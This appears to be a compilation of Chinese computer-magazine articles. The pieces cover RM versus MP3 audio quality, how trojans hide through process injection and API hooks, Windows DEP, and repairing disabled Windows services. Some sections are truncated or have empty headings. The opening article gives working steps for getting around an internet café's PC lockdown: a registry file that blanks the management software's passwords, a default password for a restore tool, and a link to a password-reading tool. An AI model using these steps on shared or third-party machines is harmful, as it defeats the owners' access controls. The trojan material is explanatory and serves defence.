居然有一台电脑注册表是锁定的，这难不倒我修改注册表需要破解，这就要用到REG文件了。用“记事本”制作一个名为OK.reg的文件，文件内容如下：

```
REGEDIT4
[HKEY_LOCAL_MACHINE\Software\Mpsoft\Menu]
"exitpass_blankword"=""
"setuppassword"=""
"quitpassword"=""
```

将这个文件发到你的邮箱中，到目标机上下载附件，选“在文件当前打开”，运行后注销，密码就为空了。到这里就可以下载所有工具软件，以便进一步破解了。

### 找出“我的电脑”

在我辛辛苦苦地等一个文件下载完毕后却发现，桌面上找不到“我的电脑”。其实这是“万象幻境网吧管理”在搞鬼，居然还装了这个！我可以一步搞定它。在IE中点击“查看→浏览器栏→文件夹”(见图2)，这样就能访问了，或直接在IE里输入C：\，这样也能访问C盘里的内容。到这里我想在他的C盘里建立一个存放自己工具的文件夹，但鼠标右键菜单居然不...



### 破解还原精灵

首先考虑还原精灵有默认的初始化密码，如果压根儿就没有修改过它的默认密码的话，就简单多了，因为还原精灵的默认密码是“12345678！”(不含引号)。如果密码不对，我还有个简单的方法一用一些“还原精灵”读取密码软件，你可以使用关键词“还原精灵密码读取软”、“软件下载”为关键词下载到相关软件。我这里提供一个老版本的还原精灵读取密码软件，下载地址：http://www.newhua.com/cfan/200506/yuanzhi.exe

> ·小提示
一些网站提供了在线的清除还原精灵密码的方法，只要以“在线清除还原精灵”为关键词就能搜索到相关的网站(见图3)。到这里限制就被解除了……



## 水能变油？RM转MP3音质会变好？

某论坛网友：请问我有一个RM的歌曲，转换为MP3后，质量是否会变差？

### RM，你真的了解吗？

很多人一提起RM的歌曲就会皱起眉头，毕竟RM格式的音频一直是体积小、低音质的代表，那么它的音频质量到底如何呢？

首先来简单了解一下Real Media格式，Real Media是RealNetworks公司创造出来的一种互联网流媒体格式的统称，它的主要特点就是针对低带宽应用(最低28.8Kbps)进行动态(声音、视频)媒体传输。Real Media格式经常使用的扩展名有RM、RA、RAM等，其中最常见的就是RM格式。RMVB格式，则是RealNetworks公司在RM格式基础上重新制作的，可动态编码的新格式，生成的文件更小，画面更流畅、清晰，但它不在本文探讨范围之内。

### RM = 低音质？

我们先来重点了解一下Real Audio的压缩算法。在技术上Real Audio的压缩算法基于GSM 6.10(编码介绍http://kbs.cs.tu-berlin.de/~jutta/toast.html)。该算法是数字手机的公开语音编码标准。RealNetworks公司对这个算法进行了修改，使它更适合在网络上传输，从某种程度上说Real Audio并不完全是RealNetworks公司原创的。现在最新的Real Audio的技术是Real Audio 8，它利用了SONY公司在MD上的ATRAC 3音频压缩技术改良版本。对于ATRAC 3，我想不必多做介绍，很多人舍MP3，而买MD就是因为ATRAC 3音质比MP3更好。这自然也让Real Audio 8在音质方面得到了极大改良。RealNetworks通过与SONY公司的合作，将自己与各大唱片公司之间的联系进一步加强，以巩固它在流媒体领域的地盘。

### RM，你从哪里来？

可能很多朋友还不知道如何转换RM格式的文件。下面先来简单介绍一下。使用工具是Helix Producer Plus(下载地址：http://www2.skycn.com/soft/1272.html，汉化版下载地址：http://www2.skycn.com/soft/12470.html)。第一步：打开Helix Producer Plus 9，点击“浏览”按钮，打开MP3或WAV文件(也可选择AVI、MPG等格式，但视频媒体并不在本文讨论范围之内)。第二步：按Ctrl + Y组合键打开Configuration Statistics窗口，然后双击任意项。第三步：在弹出窗口中的“语音编解码器”及“音乐编解码器”下拉菜单中选择一个合适的编码率，比如176 kbps Stereo Music - RA 8(表示立体声，码率为176 kbps，采用Real Audio 8编码)。第四步：点击“编码”按钮(见图1)，开始编码，稍候，你就可以在源文件所在目录中看到新生成的RM文件了。



### RM听起来很“美”

现在来看看MP3文件和RM文件在近似码率情况下的波形对比。我采用了一种相对简单，但又足够准确的方法：用同一播放器同一音量播放MP3及RM歌曲，然后用Cool Edit进行录制，再分别保存为WAV文件，并用Cool Edit进行分析(下面也采用同样方法进行分析)。第一步：用CDEx(下载地址：http://www.onlinedown.net/soft/6566.htm)将CD音轨转为WAV文件，再用Helix Producer Plus将该文件转换为RM文件(采用176 kbps Stereo Music - RA 8进行转换)，同时用CDEx转换同样一首歌曲的MP3格式，使用192kbps的编码率及44100的采样率。最后，生成的MP3文件大小为6.17MB，RM文件大小为8.05MB。第二步：进入Cool Edit，用RealPlayer，分别播放前面录制好的MP3及RM格式文件。然后选择菜单命令“分析→波形分析”，可以从如图2所示的统计数据中看到，如果考虑到编码率等问题，RM格式与MP3相比，虽然有一定差距，但在一般环境中是较难听出区别的，并不是大家想像中那样差。



### 揭秘！RM转MP3音质会不会变？

我们先从网下载一个RM文件歌曲，然后用dBpowerAMP Music Converter(下载地址：http://www.newhua.com/cfan/200415/MP3制作.rar)将文件转换为MP3文件，所用编码率为320Kbps，采样率为48000(见图3)。原RM文件大小为1.08MB，转换后的MP3文件为10.5MB。同样进入Cool Edit，分别播放两个文件，然后进行录制，并分析保存出来的文件。选择“分析→波形分析→图表”，可以得到如图4所示的波形对比图。通过Cool Edit的波形统计图可以看出，在将RM文件转换为MP3后，声音发生了明显变化，噪音比率明显增加，而从实际听的效果，声音在转换后，变得十分干瘪，而且一些由噪音构成的“高音”更加突出，中音部分变得扁平无力。但我们所得到的以上结果，有时可能你用一般的随身听或播放器无法很准确地判断出它们之间的区别，这与人耳的听觉系统有很大的关系，由于人类能听到的声音频率范围(音频)是20Hz～20kHz，所以，当声音(更多的是噪音)的频率在这人类听觉以外的范围内产生变化时，我们是无法准确进行判断的。再则，从文件的编码形式上来说，RM与MP3虽然都是有损压缩格式，但由于RM采用的压缩原理不同，本身在音质上就会有一定差距，而在将RM压缩至MP3(压缩过程中会增加噪音比率)过程中，会再次损耗原有音频质量，所以RM转换为MP3并不会得到很好的效果。当然如果是从网上下载的英语教材，由于对音质要求不高，所以也无所谓了。

### 关于RM不得不说

### 到底什么音频格式好呢？

## 木马别和我玩躲猫猫

以前，我曾认为只要不随便运行网友发来的文件就不会中病毒或木马，但后来出现了利用漏洞传播的冲击波、震荡波;以前，我曾认为不上小网站就不会中网页木马，但后来包括国内某知名游戏网站在内的多个大网站均在其首页被黑客挂上了木马。从此，我知道:安全，从来没有绝对的。

虽然没有绝对的安全，但如果能知己知彼，了解木马的隐藏手段，对于木马即使不能百战百胜，也能做到及时发现，使损失最小化。那么，木马究竟是如何躲在我们的系统中的呢？

### 最基本的隐藏：不可见窗体 + 隐藏文件

木马程序无论如何神秘，但归根究底，仍是Win32平台下的一种程序。Windows下常见的程序有两种：

- 1. Win32应用程序(Win32 Application)，比如QQ、Office等都属于此类。
- 2. Win32控制台程序(Win32 Console)，比如硬盘引导修复程序FixMBR。

其中，Win32应用程序通常会有应用程序界面，比如系统自带的“计算器”就有提供各种数字按钮的应用程序界面。木马虽然属于Win32应用程序，但其一般不包含窗体或隐藏了窗体(但也有某些特殊情况，如木马使用者与被害者聊天的窗口)，并且将木马文件属性设置为“隐藏”，这就是最基本的隐藏手段，稍有经验的用户只需打开“任务管理器”，并且将“文件夹选项”中的“显示所有文件”勾选即可轻松找出木马(见图1)，于是便出现了下面要介绍的“进程隐藏”技术。



### 第一代进程隐藏技术：Windows 98的后门

在Windows 98中，微软提供了一种能将进程注册为服务进程的方法。尽管微软没有公开提供这种方法的技术实现细节(因为Windows的后续版本中没有提供这个机制)，但仍有高手发现了这个秘密，这种技术称为RegisterServiceProcess。只要利用此方法，任何程序的进程都能将自己注册为服务进程，而服务进程在Windows 98中的任务管理器中恰恰又是不显示的，所以被木马程序钻了空子。要对付这种隐藏的木马还算简单，只需使用其他第三方进程管理工具即可找到其所在，并且采用此技术进行隐藏的木马在Windows 2000/XP(因为不支持这种隐藏方法)中就会现身！中止该进程后将木马文件删除即可。可是接下来的第二代进程隐藏技术，就没有这么简单对付了。

### 第二代进程隐藏技术：进程插入

在Windows中，每个进程都有自己的私有内存地址空间，当使用指针(一种访问内存的机制)访问内存时，一个进程无法访问另一个进程的内存地址空间，就好比在未经邻居同意的情况下，你无法进入邻居家吃饭一样。比如QQ在内存中存放了一张图片的数据，而MSN Messenger则无法通过直接读取内存的方式来获得该图片的数据。这样做同时也保证了程序的稳定性，如果你的进程存在一个错误，改写了一个随机地址上的内存，这个错误不会影响另一个进程使用的内存。

### 小知识

### 进程(Process)是什么

对应用程序来说，进程就像一个大容器。在应用程序被运行后，就相当于将应用程序装进容器里了，你可以往容器里加其他东西(如:应用程序在运行时所需的变量数据、需要引用的DLL文件等)，当应用程序被运行两次时，容器里的东西并不会被倒掉，系统会找一个新的进程容器来容纳它。一个进程可以包含若干线程(Thread)，线程可以帮助应用程序同时做几件事(比如一个线程向磁盘写入文件，另一个则接收用户的按键操作并及时做出反应，互相不干扰)，在程序被运行后，系统首先要做的就是为该程序进程建立一个默认线程，然后程序可以根据需要自行添加或删除相关的线程(见图2)。



### 1. 进程插入是什么

独立的地址空间对于编程人员和用户来说都是非常有利的。对于编程人员来说，系统更容易捕获随意的内存读取和写入操作。对于用户来说，操作系统将变得更加健壮，因为一个应用程序无法破坏另一个进程或操作系统的运行。当然，操作系统的这个健壮特性是要付出代价的，因为要编写能够与其他进程进行通信，或者能够对其他进程进行操作的应用程序将要困难得多。但仍有很多种方法可以打破进程的界限，访问另一个进程的地址空间，那就是“进程插入”(Process Injection)。一旦木马的DLL插入了另一个进程的地址空间后，就可以对另一个进程为所欲为，比如下文要介绍的盗QQ密码。

### 2. 木马是如何盗走QQ密码的

普通情况下，一个应用程序所接收的键盘、鼠标操作，别的应用程序是无权“过问”的。可盗号木马是怎么偷偷记录下我的密码的呢？木马首先将1个DLL文件插入到QQ的进程中并成为QQ进程中的一个线程，这样该木马DLL就赫然成为了QQ的一部分！然后在用户输入密码时，因为此时木马DLL已经进入QQ进程内部，所以也就能够接收到用户传递给QQ的密码键入了，真是“家贼难防”啊(见图3)！



### 3. 如何插入进程

#### (1)使用注册表插入DLL

早期的进程插入式木马的伎俩。通过修改注册表中的[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs]来达到插入进程的目的。缺点是不实时，修改注册表后需要重新启动才能完成进程插入。

#### (2)使用挂钩(Hook)插入DLL

比较高级和隐蔽的方式，通过系统的挂钩机制(即“Hook”，类似于DOS时代的“中断”)来插入进程(一些盗QQ木马、键盘记录木马以Hook方式插入到其他进程中“偷鸡摸狗”)，需要调用SetWindowsHookEx函数(也是一个Win32 API函数)。缺点是技术门槛较高，程序调试困难，这种木马的制作者必须具有相当的 Win32 编程水平。

## 什么是 API

Windows 中提供各种功能实现的接口称为 Win32 API（Application Programming Interface，即“应用程序编程接口”），如一些程序需要对磁盘上的文件进行读写，就要先通过对相应的 API（文件读写就要调用文件相关的 API）发出调用请求，然后 API 根据程序在调用其函数时提供的参数（如读写文件就要同时给出需要读写的文件的文件名及路径）来完成功能，最后将调用结果（如写入文件成功，或读取文件失败等）返回给程序（见图 4）。



### 使用远程线程函数（CreateRemoteThread）插入 DLL

在 Windows 2000 及以上的系统中提供了这个“远程进程”机制，可以通过一个系统 API 函数来向另一个进程中创建线程（插入 DLL）。缺点很明显，仅支持 Windows 2000 及以上系统，在国内仍有相当多用户在使用 Windows 98，所以采用这种进程插入方式的木马缺乏平台通用性。

木马将自身作为 DLL 插入别的进程空间后，用查看进程的方式就无法找出木马的踪迹了，你能看到的仅仅是一些正常程序的进程，但木马却已经偷偷潜入其中了。解决的方法是使用支持“进程模块查看”的进程管理工具（如“Windows 优化大师”提供的进程查看），木马的 DLL 模块就会现形了。

## 不要相信自己的眼睛：恐怖的进程“蒸发”

严格地来讲，这应该算是第 2.5 代的进程隐藏技术，可是它却比前几种技术更为可怕得多。这种技术使得木马在进程的模块列表中也隐藏了。

它通过 Hook 技术对系统中所有程序的进程检测相关 API 的调用进行了监控，“任务管理器”之所以能够显示出系统中所有的进程，也是因为其调用了 EnumProcesses 等进程相关的 API 函数，进程信息都包含在该函数的返回结果中，由发出调用请求的程序接收返回结果并进行处理（如“任务管理器”在接收到结果后就在进程列表中显示出来）。而木马由于事先对该 API 函数进行了 Hook，所以在“任务管理器”（或其他调用了列举进程函数的程序）调用 EnumProcesses 函数时（此时的 API 函数充当了“内线”的角色），木马便得到了通知，并且在函数将结果（列出所有进程）返回给程序前，就已将自身的进程信息从返回结果中抹去了。就好比你正在看电视剧，却有人不知不觉中将电视接上了 DVD，你在不知不觉中就被欺骗了。所以无论是“任务管理器”还是杀毒软件，想对这种木马的进程进行检测都是徒劳的。这种木马目前没有非常有效的查杀手段，只有在其运行前由杀毒软件检测到木马文件并阻止其病毒体的运行。当时还有一种技术是由木马程序将其自身的进程信息从 Windows 系统用以记录进程信息的“进程链表”中删除，这样进程管理工具就无法从“进程链表”中获得木马的进程信息了。但由于缺乏平台通用性而且在程序运行时有一些问题，所以没有被广泛采用。

## 什么是 Hook

Hook 是 Windows 中提供的一种用以替换 DOS 下“中断”的系统机制，中文译名为“挂钩”或“钩子”。在对特定的系统事件（包括上文中的特定 API 函数的调用事件）进行 Hook 后，一旦发生已 Hook 的事件，对该事件进行 Hook 的程序（如木马）就会收到系统的通知，这时程序就能在第一时间对该事件做出响应（木马程序便抢在函数返回前对结果进行了修改）。

## 毫发踪迹：全方位立体隐藏

利用刚才介绍的 Hook 隐藏进程的手段，木马可以轻而易举地实现文件的隐藏，只需将 Hook 技术应用在文件相关的 API 函数上即可，这样无论是“资源管理器”还是杀毒软件都无法找出木马所在了。更令人吃惊的是，现在已经有木马（如：灰鸽子）利用该技术实现了文件和进程的隐藏。要防止这种木马最好的手段仍是利用杀毒软件在其运行前进行拦截。

## 跟杀毒软件对着干：反杀毒软件外壳

木马再狡猾，可是一旦被杀毒软件定义了特征码，那么是可以在运行前就被拦截的。要躲过杀毒软件的追杀，很多木马就被加了壳，相当于给木马穿了件衣服，这样杀毒软件就认不出来了，但有部分杀毒软件会尝试对常用壳进行脱壳，然后再查杀（小样，别以为穿上件马夹我就不认识你了）。除了被动的隐藏外，最近还发现了能够主动和杀毒软件对着干的壳。木马在加了这种壳之后，一旦运行，则外壳先得到程序控制权，由其通过各种手段对系统中安装的杀毒软件进行破坏，最后在确认安全（杀毒软件的保护已被瓦解）后由壳释放包裹在自己“体内”的木马体并执行。这类壳通常在出现不久后即被定义为病毒，只要及时更新病毒库就能防范。

## 什么是壳

顾名思义，你可以很轻易地猜到，这是一种包在外面的东西。没错，壳能够将文件（比如 EXE）包住，在文件被运行时，首先由壳获得控制权，然后释放并运行包裹着的文件体。很多壳能对自己包住的文件体进行加密，这样就可以防止杀毒软件的查杀。比如原先杀毒软件定义的该木马的特征是“12345”，如果发现某文件中含有这个特征，就认为该文件是木马，而带有加密功能的壳则会对文件体进行加密（如原先的特征是“12345”，加密后变成了“54321”），这样杀毒软件当然不能靠文件特征进行检查了。脱壳指的就是将文件外边的壳去除，恢复文件没有加壳前的状态。

（熊猫盼盼）

## Windows 内置的病毒防护——DEP

冲击波、振荡波造成的巨大损失让人们不得不重新审视操作系统安全的重要性，微软在一片骂声中也不得不宣布在 Windows XP SP2 中进一步加强系统的安全性能，而 DEP（Data Execution Prevention：数据执行保护）技术正是 SP2 中安全性能的一个重大改进。

### 在哪里能找到 DEP

如果你采用的系统是 Windows XP SP2，就来直观地领略一下 DEP 吧：

右击“我的电脑”，选择“属性”。在弹出的“系统属性”窗口中打开“高级”选项卡，在“性能 - 视觉效果，处理器计划，内存使用，以及虚拟内存”框中点击“设置”按钮。在弹出的“性能选项”窗口中打开“数据执行保护”选项卡就能看见 DEP 了（见图 1）。



### 什么样的电脑能用 DEP

每当软件厂商和硬件厂商联合起来，我们就不得不支付更多的金钱来购买支持新技术的硬件。DEP 也是如此，要完整地支持 DEP 必须拥有支持该技术的 CPU。用软件方式（即仅安装了 Windows XP SP2，但没有支持 DEP 的 CPU）实现的 DEP 只能防护一小部分的攻击，那么什么样的 CPU 支持此项技术呢？

| 阵营 | 支持 DEP 的 CPU |
| :--- | :--- |
| AMD | Athlon 64、AMD Opteron |
| Intel | 安腾系列 CPU、J 系列的 P4（采用 Prescott 核心） |

如果并不清楚自己机器中采用的是何种型号的 CPU，也没有关系。Windows 会自动识别已安装的 CPU 是否支持 DEP，在刚才的“数据执行保护”选项卡的下方就显示了 CPU 对 DEP 的支持情况。如笔者的计算机是 Pentium III 处理器，则在该区域显示的是“您的计算机的处理器不支持基于硬件的 DEP。但是，Windows 可以使用 DEP 软件帮助保护免受某些类型的攻击”。

### DEP 能防什么样的病毒

简简单单地描述了一下 DEP，可我们仍不知道这项技术究竟是如何防止病毒入侵的，能够防什么样的病毒。那么就来了解一下其基本的防护原理吧：首先必须指出的是，DEP 其实并不是一种反病毒软件，不包含对病毒的检测和查杀功能。实际上更确切地说，DEP 是一种操作系统底层的安全机制，其本身不对病毒进行检测，但能够对病毒入侵系统的手段进行控制，从而达到保护系统的目的。冲击波、振荡波等利用系统漏洞进行传播的病毒都是用“缓冲区溢出”技术将病毒代码非法写入到系统的代码执行区，以达到病毒传播的目的。就好比飞机导航中心的墙上有个洞，如果有坏人钻进去就可以对飞机的航线进行胡乱控制，造成破坏，而 DEP 要达到的效果就是即便有人钻了进去，也不能随意地进行控制。

## 什么是缓冲区溢出

程序（包括系统底层的服务程序）在运行时，都会由系统在内存（包括物理内存和虚拟内存）区域中为该程序进程开辟出一块独立的空间，并划分为数据缓冲区和代码执行区。其中程序所接收到的数据就是存放在数据缓冲区中的，并且该区域的大小通常是由程序或操作系统事先定义好的。而代码执行区则负责存放程序的运行代码，用于系统调用执行。而如果程序的数据检查部分存在漏洞（没有仔细检查），那么程序就可能将一些超长的原本要写入数据缓冲区的数据写入到代码执行区中（想像一下，如果你往一个杯子里倒了满满一壶水，那么总会有一部分水溢出来并流向别处），那么如果恰好流入到代码执行区的这部分代码实现了一些破坏的功能……

DEP 能自动在程序执行时将其可执行代码所占用的区域标记出来，支持 DEP 的 CPU 利用一种称为 NX（No eXecute：不执行）的技术识别标记出来的区域，如果发现当前执行的代码没有明确标记为可执行（如程序执行之后，由病毒溢出到代码执行区的那部分代码），则禁止执行，那么病毒就无法利用溢出进行破坏了（不仅是病毒，同理，利用溢出技术进行的网络攻击行为也失效了）。如果 CPU 不支持 NX，则 Windows 会以软件方式进行模拟。

最后我们得出结论（同时也纠正一下部分媒体所说的“DEP 能够防护所有病毒”的误区）：DEP 仅对利用漏洞溢出（包括本地溢出）的病毒有防护作用！

### 利用 DEP 保护我们的系统

默认情况下，DEP 只保护系统中自带的程序和服务进程不受侵害。要使其他程序也受 DEP 的保护，可以在刚才打开的“数据执行保护”选项卡中选择“为除下列选定程序之外的所有程序和服务启用 DEP”。如果启用保护后，一些程序的运行状况不正常，则可以点击“添加”按钮将该程序添加到 DEP 的保护排除列表（即不保护）中并勾选（见图 2）。



## 小提示

McAfee 的溢出保护功能是与 DEP 类似的技术，会使金山词霸工作不正常，此时只需将金山词霸排除在溢出检测列表之外即可。

### CPU 与 DEP 有冲突怎么解决

一些用户在将系统升级至 Windows XP SP2 之后，却意外地发现无法正常启动了，具体现象为当显示出启动画面时死机，这些用户都恰好使用了 P4（Prescott/Celeron D，C0 步进核心）处理器。这是由于 Windows XP SP2 错误地将该核心的 CPU 识别为支持 DEP 技术，并在启动时循环尝试开启 CPU 的该项功能，导致系统死锁。微软已经发布了相关补丁：http://download.microsoft.com/download/2/b/7/2b75ebbf-ce4c-4595-8ddf-4d45e4c1ca18/WindowsXP-KB885626-v2-x86-chs.exe

## 小提示

开启一个系统服务，一般情况下需要以拥有系统管理员权限的账户登录系统。有时遇到正常模式下可能无法恢复某些服务的情况，此时可以通过启动时按 F8，选择用“安全模式”进入系统来调整系统服务。

## 服务停止以后

但凡优化系统之人，必然不会放过系统中的服务。合理地关闭一些用不到的服务，不但能加快系统运行速度、降低资源占用，还可以在一定程度上防止黑客入侵。本刊就曾经在 2004 年 18 期中给大家提供过一份《Windows 2000/XP 服务调整天书》（下载地址：http://www.newhua.com/cfan/200418/cfan2kxpsevice.rar）详细罗列了各种系统服务的名称及其用途。然而，即使知道服务的用途，在停用了某些系统服务后，仍可能出现一些意想不到的问题。一旦出现了问题，你是否能及时找出问题所在，对症下药地恢复相应的服务？如果系统已经因此崩溃，此时该如何重新启用服务来挽救我们的系统呢？不能确定被停止的服务所依赖的服务怎么办？如果你对这些问题还存有疑惑，请接着往下看。

## 服务出了故障怎么办

把服务停止或禁用之后，如果发现了问题或系统出现了异常，那么最好的方法就是恢复启用服务，可是如何恢复呢？

### 1. 最正统的方法：控制台

- 第一步：点击“开始→运行”，在“运行”输入框中输入“services.msc”（不含引号）并回车，打开“服务”管理控制台。
- 第二步：找到需要重新启动的服务名，双击后出现该服务的“属性”窗口，在“启动类型”下拉列表中选择“自动”或者“手动”（见图 1）。
- 第三步：在“服务状态”栏中点击“启动”按钮即可重新启用服务。



### 2. 如果你知道服务名称

还记得刚才打开的服务属性窗口吗？在其中有一个叫“服务名称”的位置记录了该服务在系统中的服务名。应当注意的是服务名称和显示名称是有区别的，在使用系统命令对系统服务进行操作时，参数大多采用服务名称（见图 2）。使用“net start 服务名称”的格式来启动服务，而停止服务则是“net stop 服务名称”（均不含引号）。



### 3. 服务控制台打不开了

一个不小心，把某项服务设置为了“已禁用”，导致系统工作不正常，甚至连“运行”窗口和“服务”管理控制台都打不开了。而要修复这个故障，又必须先启动错误禁用的服务，这岂不成了悖论？那么只能靠注册表了，找到 `[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services]`，其下所存放的就是系统存在的所有服务相关数据。选中出问题的服务项，在右侧窗格中可以看到一个二进制值“Start”，其数值代表了服务的启动方式，“2”表示自动，“3”表示手动，而“4”则表示已禁用。另外，参考本刊的《赤手空拳备份注册表》，可以手动编写一个恢复脚本。

### 4. Windows 都进不去了

以上情况还是比较理想的状况，如果连 Windows 都进不去了，一启动系统就给你脸色（蓝屏）看。庆幸的是，你还有“故障恢复控制台”。以 Windows XP 系统为例，首先在光驱中放入安装光盘，并且在 BIOS 参数中设置为从 CD-ROM 启动。启动电脑后，系统进入到 Windows XP 安装界面，按照提示按下 R 键登录到“故障恢复控制台”。在“故障恢复控制台”下，键入 `enable 服务名称 service_auto_start` 命令（不含引号），最后键入 `exit` 命令，并重新启动系统，以正常模式登录即可。

## 小提示

Enable 是“故障恢复控制台”中提供的一个用来启动系统服务和设备驱动程序的命令，只能在“故障恢复控制台”下使用。

### 5. 用软件来调整

除此以外，你还可以通过借助第三方软件来完成系统服务的调整。这里笔者推荐一款小巧的免费的绿色软件——HHD SrvAdmin，它可以用来可安装、删除、更改 Windows 的系统服务，甚至包括服务管理中不显示的项目，你还可以用它来管理系统中的硬件驱动，下载地址为 http://www.newhua.com/cfan/200508/SrvAdmin.rar。

- 第一步：将 HHD SrvAdmin 下载到本地，解压后只有一个可执行文件，双击运行即可。由于现在只需要它的服务管理功能，所以在主界面上仅勾选“Include Win32 services”即可。
- 第二步：比如要将 ClipBook 服务由“已禁用”改为“手动”，在列表中选中 ClipBook 服务，在“Start type”的下拉列表中将 Disabled 改为 Manual，然后单击“Update”即可（见图 3）。



- 第三步：如果需要在当前状态下启动这项服务，单击“Start”按钮即可。

### 6. 如果服务已经被删了

系统服务在一般情况下是不容易删除的，不过我们还是可以通过一些特殊的方法，比如删除注册表相关项目或者通过第三方服务管理软件将其卸载，甚至有时候中毒也可能导致系统服务被删，以至于我们无法通过服务管理来进行恢复。

### 实例：恢复被删除的 Help and Support 服务

运行“开始→帮助和支持”命令时，系统没有任何反应，或者提示“Could not start the Help and Support Service on Local Computer. Error 126: The specified module could not be found”（Help and Support 服务不能启动）。运行 services.msc 打开服务管理后，发现列表中没有“Help and Support”这项服务。

这个故障通常发生在安装一些第三方制作的修改版或者集成版的 Windows 2000/XP 系统中，许多制作者都习惯将此项服务停止或删除。当然，这个服务大部分情况下的用处并不大，不过有时候它所提供的帮助说明可以解决不少初级用户的使用问题和一些常见故障等，这时可用下面的方法来恢复。

- 第一步：到另外一台安装有同样版本操作系统的机器上，将“Help and Support”设置为“手动”或“自动”状态，然后打开“注册表编辑器”。
- 第二步：依次定位到 `[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\helpsvc]`，右击选择“导出”。
- 第三步：将导出的注册表文件复制到有故障的系统中，双击合并到注册表中即可。

## 小提示

当碰到类似的故障时，也可以用上面的方法来解决，可以根据错误提示来找出引发故障的服务，并以此找出对应的注册表项。

## 故障根源哪里找

上文中给大家介绍了在服务停止之后如何恢复，可有时故障并不是在禁用服务后马上出现的，当你禁用了一堆服务后才发现系统出现了问题，你是否还能镇定自若？

### 1. 轻松确定服务依存关系

**什么是服务依存**：在停止某些系统服务时，经常会出现“当××服务停止时，这些其他服务也将停止”的警告窗口，该窗口的列表中显示了依赖此服务的其他服务。如果在“想停止这些服务吗”处选择“是”，则此服务和基于（依赖）此服务的其他服务都将被停止，这就是所谓的服务依存关系。

**依存关系带来的麻烦**：当我们因故障而需要恢复某些服务时，却发现由于其依赖的服务也被禁用了而无法正常启动。由如何确定一个服务究竟依赖于哪些其他服务，便又成了令人头痛的难题，应该如何找出他们呢？

### 实例：无法设置 Windows ICF 防火墙

在安装了 Windows XP SP2 系统中，双击控制面板中的“Windows 防火墙”项目，出现了“Windows 无法显示 Windows 防火墙设置……”的错误提示对话框。

第一步：根据提示，在服务管理中将“Windows Firewall/Internet Connection Sharing (ICS)”服务的“启动方式”设置为“自动”，然后单击“启动”按钮，系统却提示“在本地计算机无法启动Windows Firewall/Internet Connection Sharing (ICS)服务。错误1068:依存服务或组无法启动”(见图4)，服务无法启动了，典型的依存故障。



第二步：双击该服务打开“属性”窗口，切换到“依存关系”选项卡，在“此服务依赖以下系统组件”框中发现当前服务依存于“Network Connections”和“Windows Management Instrumentation”这两项服务(见图5)，初步确定这两项服务可能被禁止了。经过检查，果然发现“Network Connections”的“启动方式”被设置为“已禁用”，当前状态为“已停止”。



第三步：依存关系找到后，解决问题就非常简单了。将“Network Connections”设置为“手动”并启动，然后再将“Windows Firewall/Internet Connection Sharing (ICS)”服务启用即可。

## 2. 在事件查看器里找原因

并不是任何故障都会以这样明显的方式告诉你故障原因的，对于普通用户来说，最好的方法还是借助系统中的分析工具来找出问题，比如“事件查看器”等。
如何打开“事件查看器”:右击“我的电脑”，选择“管理”，在弹出的“计算机管理”窗口左侧选择“事件查看器”。

## 实例:Windows XP关机变重启

新装了Windows XP系统后对其服务进行了优化，结果造成了无法正常关机，只要执行“关机”操作就自动重启系统，而且有时不“关机”也会突然重启。排除了硬件冲突和软件兼容性的可能，剩下的可能性只有服务了(真相只有一个^O^)。

- 第一步：右击“我的电脑”选择“属性”，在打开窗口中进入“高级”选项卡，在“启动和故障恢复”栏中点击“设置”按钮。取消“系统失败”栏中的“自动重新启动”的勾选，以防止在故障分析过程中意外重启。
- 第二步：执行一次重启操作，关机时出现蓝屏，说明是因为系统关机出现故障所以导致自动重启，而不是第三方软件引起的。
- 第三步：打开“事件查看器”，发现重启事件里面有个错误报告，提示VSS错误，双击打开其属性，提示“卷影复制服务错误:调用程序CoCreateInstance时的意外错误。”(见图6)，这说明“卷影复制服务(即VSS服务)”发生了问题。
- 第四步：在“开始→运行”中输入Services.msc，在服务管理里查看VSS服务的状态，发现其状态为“已禁止”，将其改为“手动”并启动服务。
- 第五步：对电脑进行多次重启或关机操作，没有再出现异常，说明刚才的自动重启故障是由于禁用了VSS服务造成的。



## 从症状谈解决

服务的优化，是因人而异的。有些服务，别人禁用了可以使系统速度更快，而在你的系统中却可能成为导致崩溃的“致命杀手”。

### 1. “网络连接”中空空荡荡

服务名:Network Connections
症状:打开“网上邻居→属性”时，发现“网络连接”中原有的“本地连接”、“网络安装向导”和“新建连接向导”等选项统统不见了，右键刷新后系统提示“‘网络连接’文件夹不能检索在您的机器上的网络适配器。请确认‘网络服务’启用并且在运行”(见图7)。



解决:从错误提示中我们可以判断这应该是“网络连接”相关的服务没有启动导致的故障，打开“服务”管理，将“Network Connections”服务改为“手动”即可。对于无须经常改变网络连接属性的朋友，在网络参数设置完成后即可将此项服务停止。
建议:需要经常改变网络参数及使用ADSL宽带拨号的用户请不要禁用此服务。

### 2. 无法共享资源

服务名:Server
症状:当要共享一个文件夹或磁盘分区时，提示“试图共享 X: 时出现错误。没有启动服务器服务。此时尚未创建共享资源”(见图8)。



解决:Windows 的文件、打印共享都依赖于Server服务，将已经禁止了的“Server”服务重新开启即可。
建议:局域网用户(特别是办公室里的朋友)和需要使用文件、打印共享的用户不要禁用此服务。

### 3. 磁盘管理被禁用

服务名:Logical Disk Manager/Logical Disk Manager Administrative Service
症状:当在“计算机管理→磁盘管理”中查看硬盘的状态时，系统提示“逻辑磁盘管理器服务已经停用。无法建立连接”(见图9)。



解决:打开服务管理，将“Logical Disk Manager”和“Logical Disk Manager Administrative Service”服务都设置为“手动”，并启动这两项服务即可(后者是依赖于前者的)。注意:仅打开其中一项服务也不能使用“磁盘管理”的功能，必须两项都开启。
建议:经常需要“看看”、“动动”磁盘分区的用户不要禁用此服务，另外如果你在使用第三方磁盘管理软件(如PQMagic)的过程中出现了不明原因的故障，请检查这两个服务是否被禁用了。

### 4. Windows ICF防火墙丢失

服务名:Windows Management Instrumentation
症状:在查看“本地连接”的属性时，切换到“高级”选项卡后却发现原本应该出现的Windows防火墙(ICF)不见了！取而代之的是一个错误提示:“Windows不能显示此连接的属性。Windows Management Instrumentation (Windows管理体系结构组件WMI)信息可能损坏。要更正此问题，请使用系统还原将Windows还原到一个较早的时间点……”。
解决:这个故障只发生在Windows XP SP1系统中，由于“Windows Management Instrumentation”出现问题而导致，详细的解决方法请参考本刊《系统服务故障一例—通缉丢失的WinXP防火墙》。
建议:直接将系统升级至 Windows XP SP2。

### 5. Windows Update升级故障

服务名:Automatic Updates/Background Intelligent Transfer Service
